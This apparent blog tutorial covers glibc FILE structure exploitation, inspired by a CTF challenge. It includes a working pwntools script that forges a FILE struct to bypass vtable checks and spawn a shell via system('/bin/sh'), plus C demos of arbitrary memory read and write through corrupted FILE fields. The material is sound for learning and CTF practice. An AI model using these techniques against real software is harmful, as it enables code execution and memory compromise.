










FILE Exploitation |
Version | v1.0.0 | |
|---|---|---|---|
| Updated | |||
| Author | Seb | Home | |
Recently I came across a ctf challenge that was exploited by corrupting glibc FILE structures/operations (the bookface challenge in angstromctf2020). I hadn’t come across this type of exploitation before, so I did some more reading on the topic
Corrupting or forging FILE structures can result in arbitrary read/write primitives and code execution, which makes it a cool topic to know about.
For a more in depth look at these techniques, I recommend looking at Angel Boy’s slides for this topic, as well as Dhaval Kapil’s article
First, lets look at what a FILE struct (internally called
struct _IO_FILE) looks like

There are pointers to buffers that are used for reading and writing operations, as well as the fileno that is returned by sys_open(), (these are the targets for arbitrary reads/writes, described later).
There also exists a struct _IO_FILE_plus:

This includes the previous struct, as well as a virtual function table. This seems to be the struct that most files are assigned- this includes stdin/stdout/stderr
So, what does this vtable look like?

When operations are performed on the file, it uses this vtable to determine what function to call.
By default, the vtable exists in a readonly segment in libc, so modifying it is normally not possible. However, you can modify the vtable pointer for a file you justed opened, since the struct will exist in a rw segment. In this way, you can forge a vtable in some controlled part of memory and overwrite the vtable pointer to point to it. When file related operationss are called on the file, the functions in the forged table would be executed.
Unfortunately, this was fixed in libc 2.24, with two functions being
added to protect against vtable tampering:
IO_validate_vtable and IO_vtable_check
__libc_IO_vtable_area, the check passes_IO_vtable_check() is called, which performs
more thorough checks, including checking the IO_accept_foreign_vtables
variable. This provides a potential way to bypass the new vtable
restriction, but we would also have to bypass pointer
encryption in libc. The source for _IO_vtable_check can
be read here
So we can’t set a vtable pointer to outside of that vtable area, but we can offset the pointer slightly such that it still points inside the allowed area, but causes other functions to be called instead of the original target. Which function do we want to call? _IO_str_overflow
The important part of the source is:
new_buf = (char *) (*((_IO_strfile *) fp)->_s._allocate_buffer) (new_size);_s._allocate_buffer is a function pointer that is at
some offset from a FILE struct, which takes new_size as an
argument.
new_size is calculated in the same function from other
fields in the FILE struct.

If we can corrupt the FILE struct of an open file, we can control the
function pointer to get code execution as well as control that
new_size variable (this will be the argument to whatever
function we choose to call- system() is a good
candidate)
Another consideration we have to make when constructing our FILE
struct is the _lock field. If calling
fclose(), this is used to wait on closing a file if its
currently in use, so if we provide the wrong value it may crash or wait
forever. We need to set it to an address that points to NULL, and from
testing this needs to be in a rw segment.
As an example of this exploitation technique, we will call
fclose() on a FILE struct that we control and use that to
get a shell. The requirements for this exploit are: - A libc address
leak- used to get the address of the jump table and system
- Ability to forge/corrupt a FILE struct - Ability to get
fclose() called on our modified FILE *ptr - Although this
isn’t the only way to get _IO_str_overflow()
called
We want to modify the vtable ptr so that
_IO_str_overflow() is called instead of some other
function, but what function is normally called? Looking at the
disassembly for fclose(), the vtable slot at offset 0x10 is
called, which is _IO_new_file_finish().
Let’s look at it in action. This is the example program I’ll run:

Here we get a libc leak and can enter our own fake FILE structure, on
which fclose() will be called.
Our exploit plan is as follows: - Read the libc leak and calculate a
few addresses: - Address of /bin/sh on libc - Address of
system - Address of jumpt table - The address to set our
fake vtable ptr to such that _IO_str_overflow is called
during flose - Find an address that points to NULL for the
_lock variable in our fake FILE struct - Set our fake
fp->._s_allocate_buffer to system - Set the
other required FILE struct such that new_size is calculated
to be the address of /bin/sh (this will be the argument to
system). The calculation for new_size is taken
from Dhaval
Kapil’s article
If everything works well, once fclose() is called on our
FILE struct, we’ll manage to called system("/bin/sh"). I
used pwntools to interact with the vulnerable program and accomplish the
above, here’s the full script:
#!/bin/python3
from pwn import *
context.arch = "amd64"
c = constants
PROGNAME = "./vuln"
p = process(PROGNAME)
elf = ELF(PROGNAME)
libc = elf.libc
def get_leak():
p.recvuntil(": ")
leak = int(p.recvline(),16)
return leak
stdout_addr = get_leak()
# set libc base
libc.address = stdout_addr - libc.symbols['_IO_2_1_stdout_']
log.info('libc base is 0x%x' % libc.address)
system_addr = libc.symbols['system']
binsh_addr = next(libc.search(b"/bin/sh"))
log.info('/bin/sh addr at 0x%x' % binsh_addr)
# binsh addr needs to be even
assert(binsh_addr % 2 == 0)
# if not, searching for b"sh\x00" should do the trick
# to ensure fclose() calls _io_str_overflow, vtable address should be placed
# such that vtable+0x10 points to _io_str_overflow
_io_str_overflow_addr = libc.symbols['_IO_file_jumps'] + 0xd8
fake_vtable_addr = _io_str_overflow_addr - 0x10
# need addr that points to NULL for _lock: should be in a rw segment
null_ptr = elf.symbols['fake_file'] + 0x80
log.info("null_ptr at 0x%x" % null_ptr)
# construct a file struct
file_struct = FileStructure(null=null_ptr)
file_struct._IO_buf_base = 0
file_struct._IO_buf_end = int((binsh_addr - 100) / 2)
file_struct._IO_write_ptr = int((binsh_addr - 100) / 2)
file_struct._IO_write_base = 0
file_struct.vtable = fake_vtable_addr
payload = bytes(file_struct)
# at offset 0xe0 should be function ptr we want to call (fp->._s_allocate_buffer)
payload += p64(system_addr)
remaining_size = 0x200 - len(payload)
payload += (remaining_size * b"\x00")
log.info("Payload length: 0x%x" % len(payload))
p.sendafter("structure:", payload)
p.interactive()Note that the FileStructure feature is only available in
the beta/dev versions of pwntools at time of writing
After executing the above, we get a shell:

This works atleast up to libc 2.27, however I noticed the code for
libc 2.30 had a different way of getting the new_buf
variable instead of using ._s_allocate_buffer:

Our current way of exploitation is defeated, but in doing so another
is opened up- this is an opportunity to call
malloc->__malloc_hook and get code
execution that way.
This section is mostly taken from Angel Boy’s FILE exploitation slides, which talks about getting arbitrary reads/writes from a corrupted FILE struct
Recall that a FILE struct has various pointers to buffers, as well as
a _fileno field. These buffers are used for read/write
operations, and _fileno dictates on which open file these
happen on. It’s easy to see that if we modify these fields we can do
some interesting things.
Consider an fwrite(buf, size, nmemb, stream) call where
we have control of the FILE *stream and can corrupt the
struct it points to.
If we modify write_base to the area of interest and
write_ptr to the area after it, we can write that memory to
whatever filenumber _fileno specifies. Since we can control
this too, why not change it to stdout?
We also need to set the _flag field to
_flag & ~_IO_NO_WRITES and
_flag |= _IO_CURRENTLY_PUTTING. This is to get to the part
of fwrite we want executed, you can find a more in depth
explanation in the linked slides.
Here is the program we run:
#include <stdio.h>
#include <strings.h>
#include <stdlib.h>
#include <unistd.h>
/* tries to write contents of buffer to file */
/* instead prints out values at arbitrary addresses */
int main () {
char *msg = "hello there";
FILE *fp;
// read input into a buffer, to be written to some file
char *buf = malloc(100);
read(0, buf, 100);
fp = fopen("sample.txt", "rw");
// modify FILE struct
fp->_flags &=~8;
fp->_flags |= 0x800;
fp->_IO_write_base = msg; // could be anywhere in memory
fp->_IO_write_ptr = msg+11; // 11 == len(msg)
fp->_IO_read_end = fp->_IO_write_base; // required for some check in fwrite
// force output to stdout instead of file
fp->_fileno = 1;
fwrite(buf, 1, 100, fp);
return 0;
}The results:

We could’ve pointed msg anywhere in memory in the above
example. Pretty neat! We can do something similar with fread…
In this example we would set _flags in a similar way,
and set buf_base and buf_end to the area you
want to write to. Similar to last time, set _fileno to
stdin to force fread() to take our data. Here is the
example code:
#include <stdio.h>
#include <strings.h>
#include <stdlib.h>
#include <unistd.h>
/* tries to open a file and tsfr data to a buffer then print it */
/* instead writes to an arbitrary place in memory */
int main () {
FILE *fp;
char *buf = malloc(100);
char msg[100];
fp = fopen("sample.txt", "rw");
// modify FILE struct
fp->_flags &=~4;
fp->_IO_buf_base = msg; // could be anywhere in memory
fp->_IO_buf_end = msg+100;
fp->_IO_read_base = NULL;
fp->_IO_read_ptr = NULL;
// force read from stdin instead of file
fp->_fileno = 0;
fread(buf, 1, 6, fp);
printf("msg contents: %s", msg);
return 0;
}
Here instead of reading the contents of a file into a buffer we manage to write to a place in memory of our choosing
It should be noted that this kind of exploitation doesn’t necessarily
require files to be opened in the program- you can target
stdin/stdout/stderr and functions like puts,
fgets, scanf that use those descriptors. Angel
Boy goes more into this with his slides, I highly encourage you to have
a look.
Overall quite a cool set of exploitation methods, not sure how used they are in practice but definitely something to look out for in ctfs atleast